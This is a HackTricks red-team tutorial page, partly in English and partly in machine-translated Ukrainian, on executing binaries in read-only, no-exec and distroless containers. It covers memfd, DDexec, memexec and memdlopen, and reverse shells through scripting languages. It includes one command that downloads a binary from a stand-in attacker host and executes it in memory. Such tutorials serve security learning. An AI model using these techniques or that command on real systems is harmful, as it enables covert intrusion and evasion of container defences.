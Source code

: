 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_вимагається вільне володіння польською мовою в усній та письмовій формі_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

{% hint style="warning" %}
From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

{% hint style="warning" %}
This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.

Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

{% hint style="success" %}
**DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Для отримання додаткової інформації про цю техніку перевірте Github або:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) є природним наступним кроком DDexec. Це **DDexec shellcode demonised**, тому що щоразу, коли ви хочете **запустити інший бінарний файл**, вам не потрібно перезапускати DDexec, ви можете просто запустити shellcode memexec через техніку DDexec, а потім **спілкуватися з цим демоном, щоб передати нові бінарні файли для завантаження та виконання**.

Ви можете знайти приклад того, як використовувати **memexec для виконання бінарних файлів з PHP реверс-шелу** за адресою [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

З подібною метою до DDexec, техніка [**memdlopen**](https://github.com/arget13/memdlopen) дозволяє **легше завантажувати бінарні файли** в пам'ять для подальшого виконання. Це може навіть дозволити завантажувати бінарні файли з залежностями.

## Distroless Bypass

### Що таке distroless

Контейнери distroless містять лише **найнеобхідні компоненти для запуску конкретного застосунку або служби**, такі як бібліотеки та залежності виконання, але виключають більші компоненти, такі як менеджер пакетів, оболонка або системні утиліти.

Мета контейнерів distroless полягає в тому, щоб **зменшити поверхню атаки контейнерів, усунувши непотрібні компоненти** та мінімізувати кількість вразливостей, які можуть бути використані.

### Реверс-шел

У контейнері distroless ви, можливо, **навіть не знайдете `sh` або `bash`**, щоб отримати звичайну оболонку. Ви також не знайдете бінарні файли, такі як `ls`, `whoami`, `id`... все, що ви зазвичай запускаєте в системі.

{% hint style="warning" %}
Отже, ви **не зможете** отримати **реверс-шел** або **перерахувати** систему, як зазвичай.
{% endhint %}

Однак, якщо скомпрометований контейнер, наприклад, запускає flask web, тоді python встановлений, і тому ви можете отримати **Python реверс-шел**. Якщо він запускає node, ви можете отримати Node rev shell, і те ж саме з більшістю будь-яких **скриптових мов**.

{% hint style="success" %}
Використовуючи скриптову мову, ви могли б **перерахувати систему**, використовуючи можливості мови.
{% endhint %}

Якщо немає **захистів `read-only/no-exec`**, ви могли б зловживати своїм реверс-шелом, щоб **записувати у файлову систему свої бінарні файли** та **виконувати** їх.

{% hint style="success" %}
Однак у таких контейнерах ці захисти зазвичай існують, але ви могли б використовувати **попередні техніки виконання в пам'яті, щоб обійти їх**.
{% endhint %}

Ви можете знайти **приклади** того, як **використовувати деякі вразливості RCE**, щоб отримати реверс-шели скриптових мов та виконувати бінарні файли з пам'яті за адресою [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакінгу** і ви хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

